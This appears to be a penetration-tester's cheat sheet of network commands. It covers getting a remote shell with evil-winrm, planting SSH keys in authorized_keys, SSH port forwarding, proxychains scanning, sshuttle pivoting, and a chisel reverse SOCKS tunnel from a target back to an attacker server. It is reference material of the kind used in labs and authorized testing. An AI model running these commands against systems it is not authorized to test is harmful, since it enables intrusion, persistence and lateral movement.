 ```yaml
---
title: network
weight: 20
---
```


# evil-winrm
----------------

get shell via evil-winrm
```shell
./evil-winrm.rb -u username -p password -i target-ip
```
----------------


# ssh / tunneling
----------------

create ssh-key
```shell
ssh-keygen
```

add public-key to authorized_keys
```shell
cat rsa.pub >> authorized_keys
```

set permission on private-key
```shell
chmod 600 id_rsa
```

login via ssh-key
```shell
ssh -i id_rsa username@target-ip
```

login with older ciphers
```shell
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc username@target-ip
```

start tool after ssh login
```shell
ssh username@target-ip -o "ProxyCommand=ncat --proxy-type http --proxy target-ip:proxy-port 127.0.0.1 22"
```

ssh port forwarding
```shell
ssh -N -L 80:127.0.0.1:80 username@target-ip
```

dynamic ssh port forward
```shell
ssh -N -D 9050 username@target-ip
```

----------------

# proxychains
----------------

Use `proxychains + command" to use the socks proxy
```shell
ssh -N -D 9050 root@10.10.110.100 -i id_rsa.root
proxychains4 -q nmap -sTV -n -PN 172.16.1.20
```

> Double pivot works the same, but you create the 2nd ssh tunnel via proxychains and a different dynamic port. 
After the tunnel is up, you can comment out the first socks entry in proxychains config.

----------------

# sshuttle
----------------

pivot via sshuttle
```shell
sshuttle -vr <via-ssh-server> <Remote-Net-To-Route>
```
```shell
sshuttle -vr username@target-ip 10.1.1.0/24
```

----------------

# chisel
----------------

attacker (server)
```shell
chisel server -p 9002 --reverse 
```

target (client)
```shell
execute chisel.exe client 10.10.14.23:9002 R:socks
```
----------------